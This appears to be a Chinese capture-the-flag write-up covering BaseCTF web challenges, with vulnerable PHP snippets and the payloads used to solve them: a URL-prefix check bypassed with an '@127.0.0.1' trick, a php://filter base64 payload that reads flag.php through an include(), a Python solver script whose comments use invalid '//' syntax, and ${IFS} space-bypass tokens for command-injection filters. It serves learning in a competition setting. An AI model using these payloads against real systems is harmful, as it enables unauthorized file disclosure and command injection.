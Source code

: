   * ```
    $challenge = $_POST['challenge'];
    if (strpos($challenge, 'http://jasmineaura.github.io') !== 0)
    {
        die('这不是 Aura 的博客！');
    }
    ```

    `strpos()函数用于在一个字符串中查找指定字符（或字符串）第一次出现的位置。`所以可以拼接

    payload：`challenge=http://jasmineaura.github.io@127.0.0.1`

  * ```
    $blog_content = file_get_contents($challenge);
    if (strpos($blog_content, '已经收到Kengwang的礼物啦') === false)
    {
        die('请去博客里面写下感想哦~');
    }
    
    // 嘿嘿，接下来要拆开礼物啦，悄悄告诉你，礼物在 flag.php 里面哦~
    $gift = $_POST['gift'];
    include($gift);
    ```

    最后使用一个include()函数并且有提示flag在flag.php文件里，但是用访问flag.php没有信息，可以猜测flag在注释里，故需要过滤器将里面的代码base64加密显示出来

    payload：`gift=php://filter/convert.base64-encode/resource=flag.php`

#### week2

* #### 数学大师

  * 题上说要5s解一题，还要50道，包不是人写的，得要脚本，直接上代码了

    ```python
    //加载模组
    import requests
    import re
    
    req = requests.session()	//题目有说明要检查session，所以这一步用来固定session
    url = "http://gz.imxbt.cn:20522/"	//网站链接
    
    answer = 0	//初始化answer
    while True:
        response = req.post(url , data={"answer": answer})	//以POST的方式传参数answer
        print(response.text)	//输出传参后的值
        if "BaseCTF" in response.text:
            print(response.text)
            break						//检测flag是否输出
        regex = r" (\d*?)(.)(\d*)\?"
        match = re.search(regex, response.text)		//正则表达式读取内容
        if match.group(2) == "+":
            answer = int(match.group(1)) + int(match.group(3))
        elif match.group(2) == "-":
            answer = int(match.group(1)) - int(match.group(3))
        elif match.group(2) == "×":
            answer = int(match.group(1)) * int(match.group(3))
        elif match.group(2) == "÷":
            answer = int(match.group(1)) // int(match.group(3))
    ```

* #### RCEisamazingwithspace

  * `preg_match()`函数会检查变量里是否有空格，可以进行空格绕过如：

    ```shell
    ${IFS},$IFS,$IFS$9
    ```

  * ~~先学这么多~~，学不动了